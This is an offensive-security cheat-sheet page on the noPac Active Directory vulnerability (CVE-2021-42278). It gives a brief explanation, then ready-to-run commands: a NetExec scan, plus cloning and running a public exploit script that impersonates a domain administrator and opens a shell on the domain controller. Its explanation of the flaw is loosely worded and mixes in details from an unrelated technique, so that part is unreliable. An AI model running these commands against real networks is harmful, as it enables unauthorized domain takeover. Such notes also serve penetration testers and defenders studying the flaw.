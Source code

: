 # noPac - CVE-2021-42278

> * Release Date: Nov 9, 2021
> * Impact: Elevation of Privilege
> * CVSS score: 8.8

**Affected products**

<figure><img src="../../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

## Brief

{% hint style="danger" %}
This CVE is a security **bypass vulnerability** that is caused by **Kerberos’s PAC confusion** and impersonation of domain controllers.

It allows potential attackers to impersonate domain controllers by requesting TGT’s from Kerberos without a PAC, and the moment TGT is issued without issuing PACs, the attacker can impersonate as a highly privileged user.

Now, to get a DC to add a PAC when a service ticket (ST) was requested using a TGT without a PAC was achieved by configuring the “altSecurityIdentities“ attribute.

This process involves modifying the altSecurityIdentities attribute of an account in a foreign domain to Kerberos:\[samaccountname]@\[domain] to impersonate that user.
{% endhint %}

## Scan | Exploit

```bash
# scan
nxc smb $ip -u $user -p $pass -M noPac

# exploit
git clone https://github.com/Ridter/noPac
cd noPac/
ls -al
python3 noPac.py $domain/$username:$password -dc-ip $ip -shell --impersonate $administrator_name -use-ldap
# enjoy :)
```
